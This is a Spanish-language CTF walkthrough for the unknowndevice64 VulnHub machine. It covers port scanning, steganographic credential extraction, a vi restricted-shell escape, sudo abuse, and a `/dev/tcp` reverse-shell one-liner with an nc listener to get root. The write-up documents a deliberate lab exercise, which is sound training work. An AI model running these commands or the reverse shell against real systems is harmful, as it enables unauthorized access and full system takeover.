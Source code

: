 ```yaml
---
icon: flag
---
```


# unknowndevice64 VulnHub

### Escaneo de puertos

```shell
nmap -p- --min-rate 5000 -sV <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-13 03:23 EDT
Nmap scan report for 192.168.195.135
Host is up (0.00046s latency).

PORT      STATE SERVICE VERSION
1337/tcp  open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 b9:af:04:6d:f1:8c:59:3a:d6:e1:96:b7:f7:fc:57:83 (RSA)
|   256 12:68:4c:6b:96:1e:51:59:32:8a:3d:41:0d:55:6b:d2 (ECDSA)
|_  256 da:3e:28:52:30:72:7a:dd:c3:fb:89:7e:54:f4:bb:fb (ED25519)
31337/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.14)
|_http-title:    Website By Unknowndevice64   
|_http-server-header: SimpleHTTP/0.6 Python/2.7.14
MAC Address: 00:0C:29:A2:21:34 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.46 ms 192.168.195.135

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.20 seconds
```

Si vamos al codigo de la pagina en el puerto `31337` vemos que hay una imagen en un comentario por lo que si vamos a la siguiente ruta...

```
http://<IP>:31337/key_is_h1dd3n.jpg
```

Veremos una imagen que nos vamos a descargar y utilizar el siguiente comando para que nos extraiga de la imagen lo que contenga...

```shell
steghide extract -sf <IMAGE>
```

Y como salvoconducto (password) pondremos la palabra que aparece en la pagina `h1dd3n` y nos extraera un .txt

```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>+++++++++++++++++.-----------------.<----------------.--.++++++.---------.>-----------------------.<<+++.++.>+++++.--.++++++++++++.>++++++++++++++++++++++++++++++++++++++++.-----------------.
```

Si decodificamos esto quedaria...

```
ud64:1M!#64@ud
```

Por lo que es un usuario y contraseña:

```
User: ud64
Password: 1M!#64@ud
```

Nos conectaremos por ssh...

```shell
ssh ud64@<IP> -p 1337
```

Tendremos una restricted bash por lo que escapamos de la siguiente manera...

```
vi
:!/bin/bash
<ENTER>
```

Y ya habriamos escapado, despues el PATH esta roto, por lo que haremos...

```shell
export PATH=<$PATH>
```

Si hacemos `sudo -l` veremos que tenemos lo siguiente...

Info:

```
User ud64 may run the following commands on unknowndevice64_v1: 
(ALL) NOPASSWD: /usr/bin/sysud64
```

Podemos ejecutar ese binario como `root` por lo que haremos lo siguiente...

```shell
sudo /usr/bin/sysud64 /bin/bash
```

Te llevara a una shell bastante rara y ahi pegamos un codigo de Reverse Shell...

```shell
sh -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Estando a la escucha...

```shell
nc -lvnp <PORT>
```

Una vez que lo enviemos y estando a la escucha nos dara una shell como `root` por lo que leemos la flag de root y ya estaria.
